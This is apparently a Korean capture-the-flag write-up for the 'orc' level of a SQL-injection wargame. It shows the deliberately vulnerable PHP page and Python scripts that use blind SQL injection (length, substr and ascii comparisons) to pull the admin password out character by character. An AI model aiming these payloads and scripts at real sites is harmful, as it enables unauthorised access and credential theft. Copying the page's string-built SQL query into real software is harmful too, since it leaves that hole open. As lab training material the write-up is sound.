 # orc

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- GET 방식으로 pw를 받는다.
- solve 함수를 실행시키려면, 정확한 admin pw를 알아야 한다.
&rarr; `blind-sqlinjection` 을 활용하여 구한다.

## 3. Solution
Python을 이용하여 크게 총 두 번의 sqli를 진행할 것이다.
1. pw의 길이
2. pw의 값


### a. Length of pw
변수명 | 값
---|---:
`pw` | 1234' or id='admin' and length(pw)=i #


우선, `length` 함수를 이용하여 길이를 구할것이다.
여기서 중요한 점은, pw조건 앞에 `id='admin'`을 추가해 줌으로서
다른 계정의 pw와 혼동되는 오류가 발생하지 않도록 하는 것이다.

이후, 비교값 `i`는 반복문을 통해 적당값(ex. 1~20)을 넣어준다.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?\
            pw=1234' or id='admin' and length(pw)=%d %%23" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
```
---


### b. Value of pw
변수명 | 값
---|---:
`pw` | 1234' or id='admin' and ascii(substr(pw,i,1))=j #


pw를 한문자씩 쪼개어 ascii 코드값 비교를 할 것이다.
- 쪼개는 부분은 `substr` 함수를 이용한다.
&rarr; substr(문자열, 시작위치, 길이)
- `ascii` 함수를 통해 ascii 값을 알아낸다.

스크립트 속 변수 `i`와 `j`를 두는데, 역할은 다음과 같다.
변수명 | 값
---|---:
`i` | pw의 한 문자 index
`j` | 문자 값 비교를 위한 변수 (33 ~ 126)

a. Length of pw 의 코드에 추가해 보자.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?\
            pw=1234' or id='admin' and length(pw)=%d %%23" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break

pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?\
                pw=1234' or id='admin' and ascii(substr(pw,%d,1))=%d %%23" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
pw(1) : 0
pw(2) : 09
pw(3) : 095
pw(4) : 095a
pw(5) : 095a9
pw(6) : 095a98
pw(7) : 095a985
pw(8) : 095a9852
```
---



나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.
변수명 | 값
---|---:
`pw` | 095a9852